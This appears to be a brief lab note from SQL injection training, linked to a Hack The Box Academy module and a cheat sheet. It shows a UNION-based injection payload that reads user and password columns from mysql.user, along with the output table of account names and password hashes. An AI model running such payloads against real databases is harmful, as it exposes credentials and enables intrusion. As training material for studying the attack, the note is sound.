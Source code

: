 ' UNION select 1, user, password, 4, 5, 6 from mysql.user-- -

![image](https://github.com/user-attachments/assets/af0e85ba-5572-4505-bb1b-ef33ce2735e5)

Products
Id	Name	Quantity	Category	Price
1	root	*0A4A5CAD344718DC418035A1F4D292BA603134D8	4	5	6
1	manager	*CFE3EEE434B38CBF709AD67A4DCDEA476CBA7FDA	4	5	6
1	hector	*0E178792E8FC304A2E3133D535D38CAF1DA3CD9D	4	5	6

https://academy.hackthebox.com/module/33/section/792
https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/









 	
